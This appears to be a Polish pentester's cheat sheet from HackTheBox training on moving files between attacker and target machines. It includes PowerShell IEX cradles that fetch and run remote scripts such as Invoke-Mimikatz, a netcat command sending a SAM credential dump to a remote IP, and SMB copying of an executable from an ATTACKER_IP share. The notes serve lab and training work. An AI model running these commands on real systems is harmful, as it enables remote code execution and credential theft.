 # Content
1. [Podzial na fragmenty](#Podzial-na-fragmenty)
2. [Powershell](#Powershell)
3. [Przeslanie nc](#Przeslanie-nc)
4. [Przeslanie przez ssh scp](#Przeslanie-przez-ssh-scp)
5. [Apache](#Apache)
6. [Upload flask](#Upload-flask)
7. [Using SMB server](#SMB-server)
8. [WebDav](#webdav)
9. [RDesktop](#rdesktop)
10. Szyfrowanie AES plikow windows/linux https://academy.hackthebox.com/module/24/section/684

# Podzial na fragmenty
### Mozna przed podzieleniem zakodowac do base64
```console
base64 -w file.ext > file_to_split
```
### Dobry sposob
Podzielenie na ilosc partii
```console
split -n 20 file_to_split
```
Zlaczenie podzielonych kawalkow
```console
cat x* > scale_file
```
### Pierwotna wersja
![](PodzielenieNaMniejszeFragmenty.png)


# Powershell
### Dekodowanie base64 do binarki pliku powershell
```powershell
$contentString = Get-Content $filePath -Encoding UTF8
$binary = [Convert]::FromBase64String($contentString)
Set-Content -Path $newFileName -Value $binary -Encoding Byte
```
### Komendy pobierania pliku
```powershell
IEX (New-Object System.Net.Webclient).DownloadString('http://ip/powerview.ps1')
```
```powershell
iwr -uri http://ip/powerview.ps1 -OutFile pv.ps1
```

```powershell
$power = (New-Object System.Net.Webclient).DownloadString('http://ip/powerview.ps1')

```


```powershell
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

# Przeslanie nc
### Nasluch
```console
nc -nlvp 9999 > dane
```
### Wyslanie
```console
nc -n <ip> 9999 < file
```
### Wyslanie pliku z windowsa
```console
Get-Content SAM.base | .\nc.exe 10.10.116.147 9001
```

# Przeslanie przez ssh scp
### Przeslanie
```console
scp file.ext kali@192.168.45.193:/tmp
```
### Pobranie pliku przez ssh
```console
scp kali@192.168.45.250:/home/kali/Desktop/ticket.doc ticket.doc
```

# Apache
Kopiujemy plik do /var/www/html
```console
systemctl start apache2
```
Pobieramy plik na innej maszynie
```console
wget http://naszeIP/zasob
```

# Upload flask
```console
git clone https://github.com/romeokienzler/flask-file-upload.git
```
```console
mv upload.py app.py
```
```console
flask run
```
Connect i browser **127.0.0.1:5000**

# SMB server
    Uruchamiamy server na kalim:
    sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
    
    Na windowsie 
    1) Podlaczamy zasow:
       1- net use \\ATTACKER_IP\share /USER:user s3cureP@ssword 
    2) Kopiujemy pliki
       1- copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
    3) Odlaczamy zasob
       1- net use \\ATTACKER_IP\share /del
    
    Tutaj takie cos bylo robione(Uprawnienia windows)



# webdav
```bash
sudo pip3 install wsgidav cheroot
```
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
Polaczenie do zasobow z powershella
```powershell
dir \\192.168.49.128\DavWWWRoot
```

# rdesktop
Podlaczenie udostepnionego katalogu przy polaczeniu rdp (potem widac go w mojKomputer itp.)
```bash
Binio69@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
